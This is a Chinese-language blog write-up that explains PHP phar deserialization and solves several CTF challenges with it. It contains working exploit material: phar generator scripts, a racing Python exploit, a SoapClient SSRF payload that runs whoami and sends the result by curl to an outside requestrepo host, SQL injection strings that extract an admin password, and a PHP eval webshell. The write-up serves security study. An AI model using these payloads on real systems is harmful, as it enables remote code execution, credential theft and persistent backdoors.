+++
title = "浅析phar反序列化"
slug = "phar-deserialization-analysis"
description = "phar~"
date = "2024-09-05T19:28:03"
lastmod = "2024-09-05T19:28:03"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "phar"]
+++

# 0x01 前言

之前在学习php反序列化的时候难免会遇到phar文件的反序列化来恶意载入马，但是始终难以理解这样的姿势，现在再去看，貌似也释然了，这个常用姿势，拿下(以后拿ezphp来骗我也不怕啦)

# 0x02 question

## 概念

**PHAR** 文件（PHP Archive）是一种用于将多个 PHP 文件和其他资源（如图片、配置文件等）打包成一个单一文件的归档格式，类似于 JAR 文件在 Java 中的功能。PHAR 文件通常用于分发 PHP 应用程序或库，因为它简化了部署，允许将整个项目封装在一个文件中，而不是多个独立文件。**相当于是一个文件夹里面可存放多个`php`文件**,并且是**不需要解压**的,只不过在web中需要用到`phar`协议来进行解析

## 结构

> a stub        (文件头)
>
> a manifest describing the contents         (压缩文件信息)
>
> the file contents           (压缩文件内容)
>
> [optional] a signature for verifying Phar integrity (phar file format only)    (签名)

### stub

也就是一个标志吧,格式为

```php
xxx<?php xxx; __HALT_COMPILER();?>
```

`php`语句前面的内容不限，但是语句中必须要有`__HALT_COMPILER()`,否则`phar`扩展将无法识别这个文件为`phar`文件

### manifest

phar文件本质上是一种压缩文件，其中每个被压缩文件的路径、大小、权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的`meta-data`，这是上述攻击手法最核心的地方。

#### meta-data

> meta-data：这是 PHAR 文件的一个特殊功能，允许用户将任意数据存储为文件的元数据，并将其序列化后保存在 Manifest 中。
>
> Phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。

### contents

被压缩文件的内容，比如一句话?:D)

### signature



当我们修改文件的内容时，签名就会变得无效，这个时候需要更换一个新的签名

EXP

```python
from hashlib import sha1
with open('test.phar', 'rb') as file:
    f = file.read() 
s = f[:-28] # 获取要签名的数据
h = f[-8:] # 获取签名类型和GBMB标识
newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)
with open('newtest.phar', 'wb') as file:
    file.write(newf) # 写入新文件
```

## 配置php.ini

或许你自己学习之后兴高采烈的开始了这里的舒坦的时候，诶发现，这怎么生成不了文件在当前目录呢，我们仅仅只是需要修改一个配置就可以了

打开`php.ini`找到

```
[Phar]
; http://php.net/phar.readonly
;phar.readonly = On
```

`;`意味着这一行其实是被注释了的，我们把`;`删掉改成

```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```

就可以生成phar文件了

## 受影响函数列表

| 受影响函数列表    |               |              |                   |
| :---------------- | ------------- | ------------ | ----------------- |
| fileatime         | filectime     | file_exists  | file_get_contents |
| file_put_contents | file          | filegroup    | fopen             |
| fileinode         | filemtime     | fileowner    | fileperms         |
| is_dir            | is_executable | is_file      | is_link           |
| is_readable       | is_writable   | is_writeable | parse_ini_file    |
| copy              | unlink        | stat         | readfile          |

## demo1

这里我们自己写一个最简单的来尝试一下,并且利用010看看底层数据信息

```php
<?php
class Hello{
    public $name='bao';
}
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering();     //开缓冲
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
$o=new Hello();
$phar->setMetadata($o);
$phar->addFromString("m.php","<?=system('dir');?>");  //写入m.php
$phar->stopBuffering();      //关缓冲
?>
```



嗯确实是序列化存储的，并且也都验证了之前所说的结构,同时来包含试试看

```php
<?php
include('phar://phar.phar');
class Hello{
    public function __destruct(){
        echo $this->name;
    }
}
$phar = new Phar('phar.phar');
?>
```

成功了`GIF89abao`

```php
<?php
// 包含并执行 PHAR 文件中的 m.php 文件
include('phar://phar.phar/m.php');
?>
```

这样的话也成功执行了命令，那么本身我们就有图片头我们能不能不写`phar`来绕过呢

没错很简单，经过我的测试，由于有图片头，所以直接改文件后缀即可包含

```php
<?php
// 包含并执行 PHAR 文件中的 m.php 文件
include('phar://phar.jpg/m.php');
?>
```

## demo2

**ctfshow_web276**,这道题我可是等了好久，终于能打了

```php
<?php

highlight_file(__FILE__);

class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;
    public $admin = false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
    public function checkevil(){
        if(preg_match('/php|\.\./i', $this->filename)){
            $this->evilfile=true;
        }
        if(preg_match('/flag/i', $this->filecontent)){
            $this->evilfile=true;
        }
        return $this->evilfile;
    }
    public function __destruct(){
        if($this->evilfile && $this->admin){
            system('rm '.$this->filename);
        }
    }
}

if(isset($_GET['fn'])){
    $content = file_get_contents('php://input');
    $f = new filter($_GET['fn'],$content);
    if($f->checkevil()===false){
        file_put_contents($_GET['fn'], $content);
        copy($_GET['fn'],md5(mt_rand()).'.txt');
        unlink($_SERVER['DOCUMENT_ROOT'].'/'.$_GET['fn']);
        echo 'work done';
    }
    
}else{
    echo 'where is flag?';
}

where is flag?
```

有个`unlink`而且没有`unserialize`，还有写入文件，那么肯定是`phar`文件的利用了

利用点这个有个`system`,我们直接用`;`，然后就可以执行命令了

不多说直接生成`phar`文件

```php
<?php
class filter{
    //public $filename='1;ls';
    public $filename='1;tac f*';
    public $filecontent='';
    public $evilfile=true;
    public $admin = true;
}
@unlink("phar.phar");
$phar=new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
$o=new filter();
$phar->setMetadata($o);
$phar->addFromString('test.txt','test');
$phar->stopBuffering();
?>
```

```python
import requests
import threading

url="http://dd9d543e-beb7-4628-b01b-7f0490c24cb9.challenge.ctf.show/"
data=open('./phar.phar','rb').read()
target=True

def write():
    requests.post(url=url+"?fn=phar.phar",data=data)

def unserialize():
    global target
    r=requests.get(url=url+"?fn=phar://phar.phar")
    # if "php" in r.text and target:
    if "ctfshow{" in r.text and target:
        print(r.text)
        target=False

while target:
    threading.Thread(target=write).start()
    threading.Thread(target=unserialize).start()
```

当然也可以写木马，改一下脚本就可以了

## demo3

**[SUCTF 2019]Upload Labs 2**

这里还要配合原生类`soapclient`

打开`php.ini`，开一下拓展

```
extension=soap
```

有附件的，代码量不大，

```php
//config.php
<?php 
libxml_disable_entity_loader(true);
```

用来防止xxe攻击，index.php是个正常的文件上传，不看了，

```php
//func.php
<?php
include 'class.php';

if (isset($_POST["submit"]) && isset($_POST["url"])) {
    if(preg_match('/^(ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$_POST['url'])){
        die("Go away!");
    }else{
        $file_path = $_POST['url'];
        $file = new File($file_path);
        $file->getMIME();
        echo "<p>Your file type is '$file' </p>";
    }
}


?>
```

进行协议检测，但是正则没写好，phar协议被过滤，利用php协议套一层绕过就行了

```php
//class.php
<?php
include 'config.php';

class File{

    public $file_name;
    public $type;
    public $func = "Check";

    function __construct($file_name){
        $this->file_name = $file_name;
    }

    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }

    function __toString(){
        return $this->type;
    }

}

class Check{

    public $file_name;

    function __construct($file_name){
        $this->file_name = $file_name;
    }

    function check(){
        $data = file_get_contents($this->file_name);
        if (mb_strpos($data, "<?") !== FALSE) {
            die("&lt;? in contents!");
        }
    }
}
```

两个类，一个是在index.php里面调用的，会解析是否有`<?`，在stub头里面用标签绕过即可。File类里面的wakeup方法可以任意反射类，`getMIME()`里面的`finfo_file`会触发phar反序列化

```php
<?php
include 'config.php';

class Ad{

    public $cmd;

    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;

    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){

        $this->cmd = $cmd;

        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }

    function check(){

        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }

    function __destruct(){
        system($this->cmd);
    }
}

if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg2 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
else {
    echo "You r not admin!";
}
```

需要本地才能拿访问，可以用SoapClient来进行ssrf攻击，就可以任意执行命令了。

先利用wakeup反射出SoapClient，file_name为CRLF的参数，会触发Ad的check()，如果没能通过的话，创建对象也就失败，也就不会销毁了。所以现在需要找一个类，能够通过check

仔细看check函数

```php
    function check(){

        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
```

这里进行了反射类调用，然后再调用他的三个方法，并且传入的是不同参数，相当于这样的代码，

```php
$instance = new $this->clazz();
$instance->{$this->func1}($this->arg1);
$instance->{$this->func2}($this->arg2); 
$instance->{$this->func3}($this->arg3);
```

满足这样条件的原生类其实不少，这里我使用`SplQueue`，写出poc，不过buu现在环境有问题了，无法出网，所以我利用本地测试的，Windows里面不识别反引号

```php
<?php
system('for /f "delims=" %i in (\'whoami\') do curl "https://sh3pc7ox.requestrepo.com/?flag=%i"');
```

这样子没问题

```php
<?php
class File{
    public $file_name;
    public $func="SoapClient";
    public function __construct(){
        $payload='admin=1&cmd=for /f "delims=" %i in (\'whoami\') do curl "https://sh3pc7ox.requestrepo.com/?flag=%i"&clazz=SplQueue&func1=enqueue&func2=enqueue&func3=enqueue&arg1=test1&arg2=test2&arg3=test3';
        $this->file_name=[null,array('location'=>'http://127.0.0.2/admin.php','user_agent'=>"xxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: ".strlen($payload)."\r\n\r\n".$payload,'uri'=>'test')];
    }
}
$a=new File();
@unlink("phar.jpg");
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub('GIF89a'.'<script language="php">__HALT_COMPILER();</script>');
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

rename("phar.phar", "phar.jpg");
?>
```

```
php://filter/resource=phar://upload/f528764d624db129b32c21fbca0cb8d6/628941e623f5a967093007bf39be805f.jpg
```



## demo4

**[RoarCTF 2019]PHPShe**

看robots.txt发现版本以及一些路由



https://www.seebug.org/vuldb/ssvid-62341  我找到一个这个，但是发现关键文件这里面根本没有

https://anquan.baidu.com/article/697 但是这个是可以用的，在`include/plugin/payment/alipay/pay.php`里面有查询代码

```php
<?php
$order_id = pe_dbhold($_g_id);
$order_id = intval($order_id);
$order = $db->pe_select(order_table($order_id), array('order_id'=>$order_id));
```

我们追寻`$_g_id`，在文件头部找到include文件里面有`common.php`，里面有一个参数覆盖的条件语句

```php
if (get_magic_quotes_gpc()) {
	!empty($_GET) && extract(pe_trim(pe_stripslashes($_GET)), EXTR_PREFIX_ALL, '_g');
	!empty($_POST) && extract(pe_trim(pe_stripslashes($_POST)), EXTR_PREFIX_ALL, '_p');
}
else {
	!empty($_GET) && extract(pe_trim($_GET),EXTR_PREFIX_ALL,'_g');
	!empty($_POST) && extract(pe_trim($_POST),EXTR_PREFIX_ALL,'_p');
}
```

`get_magic_quotes_gpc`会自动对$REQUEST里面的参数添加`\`，`pe_stripslashes($_GET)` 移除添加的`\`，`EXTR_PREFIX_ALL`会自动给参数加前缀，所以`$_g_id`就是从这里来的，接着看函数处理

```php
function pe_dbhold($str, $exc=array())
{
	if (is_array($str)) {
		foreach($str as $k => $v) {
			$str[$k] = in_array($k, $exc) ? pe_dbhold($v, 'all') : pe_dbhold($v);
		}
	}
	else {
		//$str = $exc == 'all' ? mysql_real_escape_string($str) : mysql_real_escape_string(htmlspecialchars($str));
		$str = $exc == 'all' ? addslashes($str) : addslashes(htmlspecialchars($str));
	}
	return $str;
}
```

由于我们传入的并非数组，`$exc`默认值和all作比较为False，不过对于注入语句，都不影响，都只是一个`addslashes`函数

```php
function order_table($id) {
	if (stripos($id, '_') !== false) {
		$id_arr = explode('_', $id);
		return "order_{$id_arr[0]}";
	}
	else {
		return "order";	
	}
}
```

这里主要是影响有下划线的表名，如果有会根据下划线截取分割成数组

```php
	public function pe_select($table, $where = '', $field = '*')
	{
		//处理条件语句
		$sqlwhere = $this->_dowhere($where);
		return $this->sql_select("select {$field} from `".dbpre."{$table}` {$sqlwhere} limit 1");
	}
```

里面有个可疑函数`_dowhere`

```php
	protected function _dowhere($where)
	{
		if (is_array($where)) {
			foreach ($where as $k => $v) {
				$k = str_ireplace('`', '', $k);
				if (is_array($v)) {
					$where_arr[] = "`{$k}` in('".implode("','", $v)."')";			
				}
				else {
					in_array($k, array('order by', 'group by')) ? ($sqlby .= " {$k} {$v}") : ($where_arr[] = "`{$k}` = '{$v}'");
				}
			}
			$sqlwhere = is_array($where_arr) ? 'where '.implode($where_arr, ' and ').$sqlby : $sqlby;
		}
		else {
			$where && $sqlwhere = (stripos(trim($where), 'order by') === 0 or stripos(trim($where), 'group by') === 0) ? "{$where}" : "where 1 {$where}";
		}
		return $sqlwhere;
	}
```



没有转义直接拼接了

```sql
/include/plugin/payment/alipay/pay.php?id=pay`%20where%201=1%20union%20select%201,2,user(),4,5,6,7,8,9,10,11,12%23_


select * from `order_pay` where 1=1 union select 1,2,user(),4,5,6,7,8,9,10,11,12#` where `order_id` = 'pay` where 1=1 union select 1,2,user(),4,5,6,7,8,9,10,11,12#_' limit 1
```

正常注入出管理员密码



```sql
/include/plugin/payment/alipay/pay.php?id=pay`%20where%201=1%20union%20select%201,2,((select`3`from(select%201,2,3,4,5,6%20union%20select%20*%20from%20admin)a%20limit%201,1)),4,5,6,7,8,9,10,11,12%23_

altman777
```

登录进来之后没发现什么后台getshell的地方，和官方代码对比发现`/include/class/pclzip.class.php`有不同

```php
  public function __destruct()

  {
      $this->extract(PCLZIP_OPT_PATH, $this->save_path);
  }
```

多了个这个，只要反序列化成功就自动解压，现在找反序列化点，寻找调用这个类的地方



有点找不到，可以触发的函数太多了，看web端，



发现可以上传图片什么的，但是我进到这里的代码，没看出什么东西，全局搜索下载解压，找到`moban.php`

```php
	case 'del':
		pe_token_match();
		$tpl_name = pe_dbhold($_g_tpl);
		if ($tpl_name == 'default') pe_error('默认模板不能删除...');
		if ($db->pe_num('setting', array('setting_key'=>'web_tpl', 'setting_value'=>$tpl_name))) {
			pe_error('使用中不能删除');
		}
		else {
			pe_dirdel("{$tpl_name}");
			pe_success('删除成功!');
		}
	break;
```

肯定能删除成功，所以我们直接跟进`pe_dirdel`



成功触发phar反序列化，现在我们需要上传一个带有恶意webshell的压缩包，和一个phar文件，phar文件的目的是用来解压图片的。OK开始行动

```
echo '<?php eval($_POST[1]);' > shell.php

zip 1.zip shell.php
```

